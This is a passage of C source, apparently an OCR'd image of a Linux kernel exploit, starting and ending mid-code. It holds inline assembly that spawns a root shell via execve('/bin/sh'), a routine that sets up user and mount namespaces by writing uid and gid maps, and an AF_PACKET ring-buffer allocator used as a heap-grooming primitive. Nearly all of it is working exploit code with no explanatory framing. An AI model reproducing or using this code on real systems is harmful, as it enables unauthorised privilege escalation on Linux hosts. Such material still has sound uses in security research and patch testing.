 ```c
        "   lea rsi, [shell_args];  "
        "   xor rdx, rdx;   "
        "   mov rax, 59;    "
        "   syscall;        "   /* execve("/bin/sh", args, NULL) */
        "failed: "
        "   lea rdi, [timer]; "
        "   xor rsi, rsi; "
        "   mov rax, 35; "  /* nanosleep() */
        "   syscall; "
    );

    return 0;
}

void unshare_setup(void)
{
    char edit[0x100];
    int tmp_fd;

    unshare(CLONE_NEWNS | CLONE_NEWUSER | CLONE_NEWNET);

    tmp_fd = open("/proc/self/setgroups", O_WRONLY);
    write(tmp_fd, "deny", strlen("deny"));
    close(tmp_fd);

    tmp_fd = open("/proc/self/uid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getuid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);

    tmp_fd = open("/proc/self/gid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getgid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);
}

int create_socket_and_alloc_pages(unsigned int size, unsigned int nr)
{
    struct tpacket_req req;
    int socket_fd, version;
    int ret;

    socket_fd = socket(AF_PACKET, SOCK_RAW, PF_PACKET);
    if (socket_fd < 0) {
        printf("[x] failed at socket(AF_PACKET, SOCK_RAW, PF_PACKET)\n");
        ret = socket_fd;
        goto err_out;
    }

    version = TPACKET_V1;
    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_VERSION, 
                     &version, sizeof(version));
    if (ret < 0) {
        printf("[x] failed at setsockopt(PACKET_VERSION)\n");
        goto err_setsockopt;
    }

    memset(&req, 0, sizeof(req));
    req.tp_block_size = size;
    req.tp_block_nr = nr;
    req.tp_frame_size = 0x1000;
    req.tp_frame_nr = (req.tp_block_size * req.tp_block_nr) / req.tp_frame_size;

```